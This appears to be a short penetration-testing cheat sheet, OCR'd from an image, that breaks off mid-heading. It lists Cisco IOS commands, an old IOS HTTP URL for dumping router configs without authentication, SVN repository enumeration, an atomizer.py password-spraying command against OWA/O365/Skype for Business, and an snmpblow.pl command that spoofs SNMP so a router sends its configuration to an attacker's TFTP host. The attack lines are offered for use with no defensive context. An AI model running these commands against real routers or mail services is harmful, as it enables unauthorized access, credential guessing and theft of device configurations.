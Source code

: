 | #show ip interface brief | List of Interfaces 
| #show interface e0 | interface information details 
| #show ip route | List of Routes 
| #show access-lists | Access Lists 
| #terminal length 0 | No limit on output
| #copy running-config startup-config | Place settings from memory to boot 
| #copy running-config tftp | Copy settings on tftp


### IOS 11.2-12.2 vulnerabilities

```text
http:// ip /level/ 16-99 /exec/show/config
```

## SVN

List of files and folders

```text
svn list svn://10.10.10.10/Empty/
```

activity reports

```text
svn log svn://10.10.10.10/
```

change list

```text
svn diff -c r2 svn://10.10.10.10
```


## Guess the password of OVA, O365, skype business

```text
python3 atomizer.py owa 10.10.10.10 pass.txt user.txt -i 0:0:01
```

## SNMP protocol

Need to start the tftp service

```text
./snmpblow.pl -s srcip -d rtr_ip -t attackerip -f out.txt
snmpstrings.txt
```

### Windows executive services list
